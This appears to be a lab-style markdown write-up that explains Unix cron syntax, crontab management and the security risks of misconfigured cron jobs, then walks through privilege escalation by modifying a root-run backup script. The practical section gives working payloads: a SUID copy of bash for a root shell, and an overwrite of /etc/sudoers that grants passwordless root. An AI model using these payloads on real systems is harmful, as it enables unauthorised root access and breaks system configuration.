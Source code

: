 _**TO VIEW PRACTICAL, [CLICK HERE](#Practical)**_

# Cron jobs
`Cron` is a utility used in Unix systems to schedule tasks; it uses the cron daemon, `crond`, to run in the background and manage the execution of cron jobs by reading and processing the `cron table`. A cron job is a task scheduled to run in a given period that helps users automate routine tasks such as archiving logs or backing up system files. Cron jobs are maintained in cron tables, configuration files located at `/var/spool/cron/crontabs` and '/etc/crontab' that define the schedules of tasks. Cron tables can be specific to the system or individual users.

## Syntax

The system-wide cron table is readable by regular users and can be accessed with any text editor:
```
vim /etc/crontab
```
To edit the system-wide cron table, you must be a privileged user
```
sudo vim /etc/crontab
```
You can list the cron table your account has access to with the command:
```
crontab -l
```
To edit or add a cron table, you can use the command:
```
crontab -e 
```
To schedule a cron job, use the following syntax:
```
* * * * * /path/to/file
```
Where:
- The first asterisk represents the minute (0-59)
- The second asterisk represents the hour (0-23)
- The third asterisk represents the day of the month (1-31)
- The fourth asterisk represents the month (1-12)
- The fifth asterisk represents the day of the week (0-7, where 0 and 7 both represent Sunday)

Cron syntax also uses operators on provided values in cron fields.
- An asterisk (*) represents all values.
- A comma (,) specifies a list of values.
- A dash (-) indicates a range of values.
- A forward slash (/) is used as a step value.

```
30 5 */2 * * /home/kayem/script.sh
```
The cron job above will execute /home/kayem/script.sh at 5:30 on every second day of the month.

## Managing cron tables

There are two types of cron tables: system and user. System cron tables are located at `etc/crontab` and require root privileges to edit. They contain scheduled tasks that apply to the entire system and tasks that need to be executed as the root for high-privileged operations. To edit the system cron table, you have to use a text editor such as Vim, or Nano, as attempting to edit it with `sudo cron tab -e` will revise the personal cron table of the root user, rather than the system cron table. As for the user cron table, each user has their own cron table. Although it is not created automatically, it can be created by a system administrator or the user. An admin can create a cron table for a user with the command:
```
crontab -e -u [USER]
```
Users can create a cron table without root privileges but are limited to scheduling tasks with the files they have permission to execute.

## Security implications of cron jobs

If misconfigured, cron jobs can exploit high privileges and gain unauthorised access to critical system resources. Therefore, it is necessary that personal cron jobs run with the privileges of the user; rather than higher privileged users. If a cron job file has the SUID bit set, is owned by a higher privileged user, like root, and a regular user has write permissions, they can inject malicious code to be executed that spawns a root shell, deletes critical files, terminates services, and the like.

# Practical

I began by identifying which cron jobs the user has access to with `crontab -e`, for local cron jobs, or `cat /etc/crontab` for system-wide cron jobs. With `cat /etc/crontab` 

```
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
These four cron jobs are executed as root. Since '/home/karen/backup.sh' is owned by the user, I will be targeting this cron job to escalate privileges. I check the permissions of the shell script with
```
ls -l /home/karen/backup.sh
```
The script only has read and write permissions for the file owner, so I add execute permissions to allow the script to be executed.
```
chmod +x /home/karen/backup.sh
```
Now that the cron job can be executed, we can modify the file with two payloads to escalate privileges.

## Method 1

The following payload 

`cp /bin/bash /tmp/bash; chmod +s /tmp/bash`

'/tmp/bash -p'

## Method 2

Alternatively, you can add your user to the /etc/sudoers file.

```
echo "karen ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

